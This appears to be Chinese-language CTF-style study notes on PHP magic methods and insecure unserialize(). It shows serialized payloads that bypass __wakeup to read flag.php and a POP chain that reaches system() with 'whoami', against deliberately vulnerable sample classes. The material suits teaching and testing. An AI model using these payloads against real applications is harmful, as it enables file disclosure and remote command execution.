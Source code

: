 ## 魔术方法

```
__construct(),类的构造函数
__destruct(),类的析构函数
__call(),在对象上下文中调用不可访问的方法时调用
__callStatic(),在静态上下文中调用不可访问的方法时调用
__get(),用于从不可访问的属性读取数据,有时可用于构造POP链
__set(),用于将数据写入不可访问的属性
__isset(),当对不可访问属性调用isset()或empty()时调用
__unset(),当对不可访问属性调用unset()时被调用
__sleep(),执行serialize()时,先会调用这个函数
__wakeup(),执行unserialize()时,先会调用这个函数
__toString(),类被当成字符串时的回应方法,有时可用于构造POP链,常与file_exists()结合
__invoke(),当脚本尝试将对象调用为函数时触发
__set_state(),当调用var_export()导出类时,此静态方法会被调用
static __set_state(array $properties): object
```

### __sleep()与__wakeup()

```php
<?php 
class Demo{
    public function __construct($a,$b,$c){
        $this->a=$a;
        $this->b=$b;
        $this->c=$c;
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
    public function showstr(){
        echo $this->str.'<br>';
    }
    public function __sleep(){//serialize前调用
        echo __METHOD__.'<br>';
        return array('a','c');//只返回了$this->a和$this->c,返回需要被序列化存储的成员属性,删减不必要
    }
    public function __wakeup(){//unserialize前调用
        echo __METHOD__.'<br>';
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
}

highlight_file(__FILE__);
$test=new Demo('asdf','qwer','1234');
$test->showstr();
$s_test=serialize($test);
echo $s_test.'<br>';
$u_test=unserialize($s_test);
$u_test->showstr();
?>
```

```
a asdf,b qwer,c 1234
Demo::__sleep
O:4:"Demo":2:{s:1:"a";s:4:"asdf";s:1:"c";s:4:"1234";}
Demo::__wakeup
a asdf,b ,c 1234
```

### __toString()

```php
<?php 
class Demo{
    public function __construct($a,$b,$c){
        $this->a=$a;
        $this->b=$b;
        $this->c=$c;
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
    public function __toString(){
        return $this->str;
    }
}

highlight_file(__FILE__);
$test=new Demo('asdf','qwer','1234');
echo $test;
?>
```

```
a asdf,b qwer,c 1234
```

[常见触发方法](https://www.cnblogs.com/bmjoker/p/13742666.html)

1. `echo($obj)`或`print($obj)`打印时会触发

2. 反序列化对象与字符串连接时

3. 反序列化对象参与格式化字符串时

4. 反序列化对象与字符串进行==比较时(PHP进行==比较的时候会转换参数类型)

5. 反序列化对象参与格式化SQL语句,绑定参数时

6. 反序列化对象在经过php字符串函数,如`strlen()`,`addslashes()`时

7. 在in_array()方法中,第一个参数是反序列化对象,第二个参数的数组中有toString返回的字符串的时候toString会被调用

8. 反序列化的对象作为`class_exists()`的参数的时候

### 绕过__wakeup()

**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

>仅使用于 PHP5<5.6.25 PHP7<7.0.10

```php
<?php 
class SoFun{ 
    protected $file='index.php';
    function __destruct(){
        if(!empty($this->file)) {
            if(strchr($this-> file,"\\")===false&&strchr($this->file, '/')===false){
                show_source(dirname (__FILE__).'/'.$this ->file);
            }
            else{
                die('Wrong filename.');
            }
        }
    }
    function __wakeup(){
        $this-> file='index.php';
    } 
    public function __toString(){
        return '';
    }
}     
if(!isset($_GET['file'])){ 
    show_source('index.php');
}
else{
    $file=base64_decode($_GET['file']);
    unserialize($file);
}
?>
```

`O:5:"SoFun":1:{s:7:"*file";s:9:"index.php";}`

`O:5:"SoFun":2:{s:7:"*file";s:8:"flag.php";}`

payload`?file=Tzo1OiJTb0Z1biI6Mjp7Uzo3OiIAKgBmaWxlIjtzOjg6ImZsYWcucGhwIjt9`

### __call()与__invoke()

在对象中调用一个不可访问方法时`__call()`会被调用

```php
<?php

class A
{
    public $class;
    public $parameter;

    public function __destruct()
    {
        if (isset($this->class) && isset($this->parameter)) {
            $this->class->system($this->parameter);
        }

    }
}

class B
{
    public function __call($callback,$parameter)#callback=system
    {
        call_user_func_array($callback,$parameter);
    }
}
$str = '???';
unserialize($str);
```

```php
<?php

class A
{
    public $class;
    public $parameter;
}

class B
{

}

$a=new A();
$b=new B();
$a->class=$b;
$a->parameter="whoami";
var_dump(serialize($a));
```

`O:1:"A":2:{s:5:"class";O:1:"B":0:{}s:9:"parameter";s:6:"whoami";}`

当尝试以调用函数的方式调用一个对象时`__invoke()`方法会被自动调用

```php
<?php

class A
{
    public function __invoke($a)
    {
        var_dump($a);
    }
}

$a = new A;
$a("asdf");
```